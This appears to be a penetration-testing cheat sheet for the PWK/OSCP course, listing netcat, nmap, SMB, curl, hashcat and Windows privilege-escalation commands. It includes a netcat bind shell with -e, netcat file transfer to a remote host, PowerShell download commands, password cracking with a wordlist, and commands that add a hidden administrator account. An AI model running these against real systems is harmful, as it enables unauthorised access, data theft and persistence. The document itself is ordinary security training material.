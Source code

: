 ## NETCAT
- ```nc -nlvp 4444```  
	listen on port 4444
- ```nc -nlvp 4444 > <filename>```  
listen for file and write to <filename>
- ```nc -nv <ip> <port> < <filename>```	 
transfer file to <ip> <port>
- ```nc -nvlp 4444 -e <cmd>```  
listens on port and runs <cmd> when something connects
- ```nc <ip> 80```  
if a webserver is running on the ip, this can be used to connect to get server version, etc

## NMAP
- `nmap -sS <ip>`  
	Basic Scan
- `nmap -p- -A <ip>`  
	Scans all ports, vulnerabilities, version number, OS identification
- `nmap --script=vuln <ip>`  
	Vulnerable Port Scan
- `nmap -sU <ip>`  
UDP scan
- `nmap -O <ip>`  
OS Version
- `nmap -sV -Pn -p- -iL <list-of-IPs> --script=vuln -su123`  
Runs a scan on a list of IPs on all ports without pinging the server. Runs a vulerability + version scan. 

## SAMBA
- SMB1: 2000, XP & 2003
```enum4linux -a <ip>```
- SMB2: Vista SP1 & 2008
- SMB2.1: 7 &2008 R2
- SMB3: 8 & 2012
- Listing of shares ```smbmap -H <target ip> -u "" -p ""```

## REMOTE DESKTOP
- `rdesktop <ip>`

## CURL
- ```curl -i <ip>```  
Get request banner info
- ```curl -i -L <ip>```  
request/response

## FILE TRANSFER (WINDOWS)
- Pure ftp-d: Page 202 of PWK Manual
- Powershell:  
```Invoke-WebRequest -Uri <url> -OutFile <filename.ext>```

## PASSWORD CRACKING
- Hashcat:  
	`hashcat -m <hashtype> hash.txt /usr/share/wordlists/rockyou.txt` 
	hashtypes: https://hashcat.net/wiki/doku.php?id=example_hashes
- john the ripper is an alternative tool

## PRIVILEGE ESCALATION: WINDOWS
- Windows priv checker: https://github.com/pentestmonkey/windows-privesc-check
https://github.com/rasta-mouse/Watson 
- Adding a new user:   
`net user test 1234 /add`  
`net localgroup administrators test /add` 
- Run ```sc query``` to check services and paths. 
```